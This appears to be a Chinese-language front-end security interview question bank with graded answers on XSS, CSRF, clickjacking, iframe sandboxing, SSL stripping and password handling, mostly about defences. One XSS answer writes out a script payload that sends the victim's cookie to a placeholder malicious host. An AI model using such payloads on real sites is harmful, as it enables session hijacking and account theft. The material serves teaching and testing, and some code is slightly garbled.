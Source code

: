 # 前端安全

## XSS 攻击

#### 类型：`基础`

#### 级别：`W3`、`W4`、`W5`、`W6`

#### 解答（3 分）

- **:1** XSS（Cross Site Scripting，跨站脚本），即攻击者往 Web 页面里嵌入恶意的客户端脚本，当用户浏览此网页时，脚本就会在用户的浏览器上执行，进而达到攻击者的目的。【获取用户的 Cookie、导航到恶意网站、携带木马】
- **:2** 防御：  

 >1、对输入和 URL 参数进行过滤，过滤掉会导致脚本执行的相关内容。  
 >2、对动态输出到页面的内容进行 html 编码，使脚本无法在浏览器中执行。

## CSRF 攻击

#### 类型：`基础`

#### 级别：`W3`、`W4`、`W5`、`W6`

#### 解答（5 分）

- **:1** CSRF（Cross Site Request Forgery，跨站请求伪造），即在别的站点伪造了一个请求，在受害者访问一个网站时，其 cookie 还没有过期的情况下，攻击者伪造一个链接地址发送受害者并欺骗让其点击，从而形成 CSRF 攻击。
- **:4** 防御：  

 >1、验证 HTTP 的 Referer 字段。  
 >2、在请求地址中添加 token 并验证。  
 >3、在 HTTP 头中自定义属性并验证。  
 >4、涉及到数据修改操作严格使用 post 请求而不是 get 请求。  
 >>get 的 URL 会被放在浏览器历史和 WEB 服务器日志里面，如果把关键数据放在 get 里面，被人偷窥了浏览器，会造成数据泄露。而 post 日志没有记录，也不会保留 URL，只要数据库服务器不被入侵，基本还是安全的。

## iframe 风险

#### 类型：`基础`

#### 级别：`W3`、`W4`、`W5`、`W6`

#### 解答（2 分）

- **:1** 前端页面需要用到第三方提供的页面组件，通常会以 iframe 的方式引入，比如广告插件等。这些第三方提供的插件可以运行 js 脚本、flash 插件等，破坏用户体验。
- **:1** 防御：  

 >iframe 中有一个叫做 sandbox 的安全属性，通过它可以对 iframe 的行为进行各种限制，充分实现“最小权限”原则。  

## 点击劫持

#### 类型：`基础`

#### 级别：`W3`、`W4`、`W5`、`W6`

#### 解答（6 分）

- **:1** 通过 iframe 使用别人提供的内容时，自己的页面也可能正在被不法分子放到他们精心构造的 iframe 中，进行点击劫持攻击。这是一种欺骗性强、用户参与高的攻击。
- **:2** 通常的攻击步骤是这样的：  

 >1、攻击者构造一个诱导用户点击的内容，比如页面小游戏。  
 >2、将我们的页面放入到 iframe 当中。  
 >3、利用 z-index 等 CSS 样式将这个 iframe 叠加到小游戏的垂直方向的正上方。  
 >4、把 iframe 设置为100%透明度。  
 >5、受害者访问到这个页面后，肉眼看到的是一个小游戏，如果受到诱导进行了点击的话，实际上点击到的却是 iframe 中的我们自己的页面。

- **:1** 危害：  

 >攻击者利用了受害者的用户身份，在其不知情的情况下进行一些操作。如果是删除某个重要文件记录，或者窃取敏感信息，那么造成的危害就难以承受。

- **:2** 防御：

 >1、使用 X-Frame-Options：DENY 这个 HTTP Header 来明确的告知浏览器，不要把当前HTTP响应中的内容在HTML Frame 中显示出来。
 >2、判断当前页面是否被嵌入到 iframe 中。

## 第三方依赖包带来的问题

#### 类型：`基础`

#### 级别：`W3`、`W4`、`W5`、`W6`

#### 解答（2 分）

- **:1** 现在绝大多数的开发都是在借助开发框架和各种类库进行快速开发。这样做虽然方便快速，但是与此同时也存在安全风险，如果这些来自第三方的代码有安全漏洞，那么对应用整体的安全性依然会造成严峻的挑战。
比如 Node.js 有一些已知的安全漏洞，比如 CVE-2017-11499，可能导致前端应用受到 DoS 攻击。

- **:1** 防御：  

 >使用 NSP(Node Security Platform)、Snyk 等等这类工具。

## https 存在的风险

#### 类型：`基础`

#### 级别：`W3`、`W4`、`W5`、`W6`

#### 解答（4 分）

- **:1** 即使是服务器端开启了 https，也还是存在安全隐患，黑客可以利用 SSL Stripping 这种攻击手段，强制让 https 降级回 http，从而继续进行中间人攻击。
- **:2** 过程:  

 >1、用户在浏览器里输入 URL 的时候往往不是从 https:// 开始的，而是直接从域名开始输入；  
 >2、随后浏览器向服务器发起 http 通信;  
 >3、攻击者把服务器端返回的跳转到 https 页面的响应拦截了，并且代替客户端和服务器端进行后续的通信。  

- **:1** 防御：  

 >使用 HSTS（HTTP Strict Transport Security），通过 HTTP Header 以及一个预加载的清单，来告知浏览器在和网站进行通信的时候强制性使用 HTTPS，而不是通过明文的HTTP进行通信。
 并且当遇到证书或者链接不安全的时候，则首先警告用户，并且不再让用户继续进行不安全的通信。

## 什么是跨站脚本攻击（XSS）？如何防范？

#### 类型：`基础`

#### 级别：`W1`、`W2`、`W3`、`W4`、`W5`、`W6`

#### 解答（9 分）

<details>

- **2：** 跨站脚本攻击（XSS）是一种常见的网络安全漏洞。它允许攻击者将恶意脚本（通常是 JavaScript，但也可以是其他客户端脚本语言，如 VBScript）注
入到目标网站中。这些恶意脚本在用户的浏览器中执行，因为浏览器会把它当作正常的脚本代码来解析。例如：
一个存在 XSS 漏洞的网站有一个评论功能。攻击者在评论框中输入一段包含恶意 JavaScript 代码的评论，如
`<script>document.location = 'http://malicious - site.com?cookie=' + document.cookie</script>`。当其他用户访问包含这条评论
的页面时，他们的浏览器会执行这段脚本。这段脚本会获取用户的浏览器 cookie 信息（其中可能包含用户的登录凭证等敏感信息），并将其发送到攻击者指定的恶意
网站`（http://malicious - site.com）`。

- **1：** 输入验证和过滤：<br/>
&emsp;对用户输入进行严格验证：在接收用户输入的地方（如表单提交、URL 参数等），要验证输入的内容是否符合预期的格式。例如，如果是一个只允许输入数字的字段，要检查输入是否真的是数字。
&emsp;过滤特殊字符：对于可能包含脚本代码的字符进行过滤。例如，对<、>、&、"、'等 HTML 特殊字符进行转义。在 JavaScript 中，可以使用encodeURIComponent()函数对用户输入的 URL
 参数进行编码，在服务器端也可以使用相应的函数来处理。例如在 PHP 中，使用htmlspecialchars()函数来转义 HTML 中的特殊字符，这样可以防止用户输入的内容被当作 HTML 标签或脚本解析。
- **2：** 输出编码：<br/>
&emsp;根据输出上下文进行编码：当把用户输入的数据输出到 HTML 页面时，要根据输出的位置进行合适的编码。如果是输出到 HTML 标签内部的文本内容，应该使
用 HTML 实体编码。例如，`将<转义为&lt;，>转义为&gt;`。如果是输出到 JavaScript 代码中的变量，要使用 JavaScript 编码，如对引号等进行转义，以防止代码注入。
- **2：** 内容安全策略（CSP）：<br/>
&emsp;设置策略限制脚本来源：CSP 是一种浏览器安全机制，它允许网站所有者定义哪些来源的脚本可以在页面上执行。例如，可以在服务器的响应头中设
置`Content-Security-Policy: default- src'self'; script-src'self' https://trusted-scripts.com`。这意味着默认情况下，只允许来自当前网
站（self）的资源加载，而脚本可以来自当前网站和`https://trusted - scripts.com`。这样可以防止外部恶意脚本的注入。<br/>
&emsp;阻止内联脚本和 eval () 函数的滥用：CSP 还可以设置script-src指令为'nonce-value'或'hash-value'来限制内联脚本的执行。内联脚本是直接写在
HTML 标签中的脚本，如`<script>alert('XSS');</script>`，这种形式的脚本容易被攻击者利用。同时，限制eval()函数的使用，因为eval()可以动态地执行字符串形式的 JavaScript 代码，
攻击者可能会利用它来执行恶意代码。
- **2：** 使用安全的库和框架：利用内置的安全机制，许多现代的前端框架（如 React、Vue.js）都有内置的安全机制来防止 XSS。例如，React 会自动对输出到 DOM 中的内容进行转义，除非你使用dangerouslySetInnerHTML属性（这种情况下开发者需要自己确保内容是安全的）。Vue.js 也有类似的机制，在使用插值表达式`（{{}}）`时会对内容进行 HTML 转义，防止脚本注入。

</details>

## 前端如何防止点击劫持？

#### 类型：`基础`

#### 级别：`W1`、`W2`、`W3`、`W4`、`W5`、`W6`

#### 解答（2 分）

- **2：** 可以使用 X-Frame-Options 响应头来限制页面能否被嵌套在 iframe 中，例如设置为 DENY 禁止任何页面嵌套，或者 SAMEORIGIN 只允许同源页面嵌套。

## 在前端如何安全地处理用户密码？

#### 类型：`基础`

#### 级别：`W1`、`W2`、`W3`、`W4`、`W5`、`W6`

#### 解答（2 分）

- **1：** 不要明文存储：前端绝对不能以明文形式存储用户密码。在密码输入框应使用input type="password"来隐藏用户输入。
- **1：** 传输加密：在将密码发送到后端时，应确保使用 HTTPS 协议进行加密传输，防止密码在网络传输过程中被窃取。
- **1：** 避免本地缓存：设置表单元素的autocomplete="off"，防止浏览器缓存密码。
